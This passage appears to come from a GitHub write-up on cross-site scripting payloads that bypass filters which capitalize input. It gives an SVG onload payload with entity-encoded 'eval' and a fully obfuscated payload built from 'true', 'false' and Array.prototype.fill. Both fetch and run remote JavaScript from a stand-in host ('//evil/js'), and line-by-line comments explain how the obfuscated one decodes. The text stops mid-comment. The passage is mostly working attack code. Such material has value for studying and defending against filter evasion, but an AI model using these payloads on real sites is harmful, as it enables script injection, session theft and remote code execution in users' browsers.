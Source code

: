 ### Explanation

The second part of the payload is `eval(X.toLowerCase())`.

**Note:** `<script>` doesn't work here, because the HTML characters won't be interpreted. Payload must be in an event handler. For example:

```
<SVG/ONLOAD='X="FETCH(\"//EVIL/JS\").THEN(R=>R.TEXT().THEN(EVAL))";&#X65;&#X76;&#X61;&#X6C;(X.&#X74;&#X6F;L&#X6F;&#X77;&#X65;&#X72;C&#X61;&#X73;&#X65;())'/>
```

## Usecase: payload is being capitalized, character limit &gt; ~342 (not including wrapping, may vary depending on external resource URL)

* *Works with arbitrary payloads*
* X can be any function that doesn't involve lowercase letters. Some examples are:
  * `URL` and `$`: don't work inside event handlers
  * `USB` and `CSS`: don't have good cross-browser support
  * `[][F[0]+(1/0+[])[3]+F[2]+F[2]]` used below, where `F` is "false", gives `[]["fill"]`, i.e. `Array.prototype.fill`: works in all browsers and in all places

```
T=!0+[];F=!1+[];X=[][F[0]+(1/0+[])[3]+F[2]+F[2]];Y=X+[];S=F[3]+F[2]+Y[5]+Y[3]+F[4];C=Y[3]+Y[S](6,8)+F[3]+T[S](0,3)+Y[S](3,5)+Y[6]+T[1];N=C[S](8,10)+(""[C]+[])[S](9,15);(X[C](25885457[N](36)+"('//"+694029[N](36)+"/"+712[N](36)+"')."+1375583[N](36)+"("+27[N](36)+"=>"+27[N](36)+"."+1372385[N](36)+"()."+1375583[N](36)+"("+693741[N](36)+"))"))()
```

### Explanation (with comments)

```
T=!0+[]; // "true"
F=!1+[]; // "false"
// I=1/0+[]; // "Infinity"
X=[][F[0]+(1/0+[])[3]+F[2]+F[2]]; // []["fill"], i.e.
                                  // Array.prototype.fill
Y=X+[]; // "function ...", to get letters "c" and "o"
S=F[3]+F[2]+Y[5]+Y[3]+F[4]; // S="slice"
C=Y[3]+Y[S](6,8)+F[3]+T[S](0,3)+Y[S](3,5)+Y[6]+T[1];
                                  // C="constructor"
N=C[S](8,10)+(""[C]+[])[S](9,15); // N="toString";
                                  // <number>["toString"](36)
                                  // can give any number or
                                  // lowercase letter as string
J=25885457[N](36) // "fetch"
+"('//"
+694029[N](36) // "evil"
+"/"
+712[N](36) // "js"
+"')."
+1375583[N](36) // "then"
+"("
+27[N](36) // "r"
+"=>"
+27[N](36) // "r"
+"."
+1372385[N](36) // "text"
+"()."
+1375583[N](36) // "then"
+"("
+693741[N](36) // "eval"
+"))";
(X[C](J))(); // X[C] is Array.prototype.fill["constructor"],
             // i.e. Function.prototype. It creates an
```